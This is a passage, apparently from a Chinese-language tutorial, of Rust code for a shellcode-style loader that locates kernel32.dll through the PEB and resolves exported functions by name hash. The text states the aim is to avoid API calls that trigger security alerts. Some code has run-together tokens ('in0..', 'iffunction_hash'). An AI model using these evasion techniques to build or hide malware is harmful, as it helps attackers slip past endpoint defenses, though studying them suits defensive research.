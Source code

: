 ```

        table_entry_ptr = (*table_entry_ptr).InLoadOrderLinks.Flink as *mut LDR_DATA_TABLE_ENTRY;
    }

    None
}

#[link_section = &#34;.text&#34;]
unsafe fn get_peb_ptr() -> *mut PEB {
    // TEB located at offset 0x30 from the GS register on 64-bit
    let teb: *mut TEB;
    asm!(&#34;mov {teb}, gs:[0x30]&#34;, teb = out(reg) teb);

    (*teb).ProcessEnvironmentBlock as *mut PEB
}
```

  
  
定位出口  
  
找到基址后kernel32.dll，下一步就是确定所需特定函数的地址。这需要了解 Windows 可移植可执行文件 (PE) 格式。  
  
PE 文件由多个部分组成，包括 DOS 头、DOS 存根、NT 头和节表。节表以.text和等段的形式保存着实际的文件内容.data。我们重点关注位于 NT 头中的导出目录，该目录列出了导出函数及其地址。我们可以利用IMAGE_DIRECTORY_ENTRY_EXPORT中的偏移量来访问导出目录IMAGE_DATA_DIRECTORY。  
  
与之前在模块中导航的方式类似，我们现在遍历导出目录条目来找到所需的函数。这样，我们就能绕过可能触发安全警报的常见 API 调用机制：  
  

```
#[link_section = &#34;.text&#34;]
unsafe fn get_export_addr(module_base_ptr: *mut u8, function_hash: u32) -> Option<usize> {
    // NT Headers -> RVA of Export Directory Table -> function names, ordinals, and addresses
    let nt_headers_ptr = get_nt_headers_ptr(module_base_ptr).unwrap();
    let export_dir_ptr = (module_base_ptr as usize
        + (*nt_headers_ptr).OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT as usize]
            .VirtualAddress as usize) as *mut IMAGE_EXPORT_DIRECTORY;

    let names = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfNames as usize) as *const u32,
        (*export_dir_ptr).NumberOfNames as _,
    );
    let funcs = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfFunctions as usize) as *const u32,
        (*export_dir_ptr).NumberOfFunctions as _,
    );
    let ords = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfNameOrdinals as usize) as *const u16,
        (*export_dir_ptr).NumberOfNames as _,
    );

    // compare hashes iteratively for each entry
    for i in0..(*export_dir_ptr).NumberOfNames {
        let name_ptr = (module_base_ptr as usize + names[i as usize] as usize) as *const i8;
        let name_len = get_cstr_len(name_ptr as _);
        let name_slice = from_raw_parts(name_ptr as _, name_len);

        iffunction_hash == airborne_common::calc_hash(name_slice) {
            return Some(module_base_ptr as usize + funcs[ords[i as usize] as usize] as usize);
        }
    }

    None
}

#[link_section = &#34;.text&#34;]
```